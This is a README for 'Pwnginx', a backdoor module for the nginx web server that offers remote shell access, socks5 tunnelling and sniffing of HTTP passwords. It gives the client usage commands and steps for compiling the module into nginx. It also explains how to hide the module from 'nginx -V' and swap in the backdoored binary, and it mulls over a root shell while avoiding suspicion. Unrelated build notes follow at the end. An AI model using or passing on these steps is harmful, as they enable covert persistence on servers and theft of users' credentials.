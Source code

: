 #[ Pwnginx ] - Pwn nginx

Copyleft by t57root @ openwill.me

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

Usage:

Get shell access via the nginx running @ [ip]:[port]

    ./pwnginx shell [ip] [port] [password]

Get a socks5 tunnel listening at [socks5ip]:[socks5port]

    ./pwnginx socks5 [ip] [port] [password] [socks5ip] [socks5port]


###Features:
    
* Remote shell access

* Socks5 tunneling via existing http connection

* Http password sniffing & logging

###INSTALL:

* Compile the client:

    $ cd client;make

* Edit source to hidden configure arguments:

    $ vim src/core/nginx.c
    
    Modify the `configure arguments` line into: `configure arguments: --prefix=/opt/nginx\n");` (original configure arguments shown in the result of `nginx -V`)

* Recompile nginx:

    $ cd /path/to/nginx/source; ./configure --prefix=/opt/nginx --add-module=/path/to/pwnginx/module && make (There is no need to run `make install`)

    $ sudo cp -f objs/nginx /path/to/nginx/sbin/nginx

* Restart nginx

    $ sudo killall nginx && /path/to/nginx/sbin/nginx


###TODO:

* Pack communication traffic into HTTP protocol

* Full pty support

* Shell with root privilege(? There must be another stand-alone 'nginx: master process' running under root to support this function. Maybe that's too suspicious. Being considered.)


yum -y install {GeoIP,gd,gperftools,libxml2,libxslt,openssl,pcre,perl,zlib}-devel perl-ExtUtils-Embed redhat-rpm-config

objs/Makefile modify 3

-D_FORTIFY_SOURCE=0 


CFLAGS =  -pipe  -O -W -Wall -Wpointer-arith -Wno-unused-parameter -Werror -g -O2 -g -pipe -Wall -Wp,-D_FORTIFY_SOURCE=0 -fexceptions -fstack-protector-strong --param=ssp-buffer-size=4 -grecord-gcc-switches -specs=/usr/lib/rpm/redhat/redhat-hardened-cc1 -m64 -mtune=generic


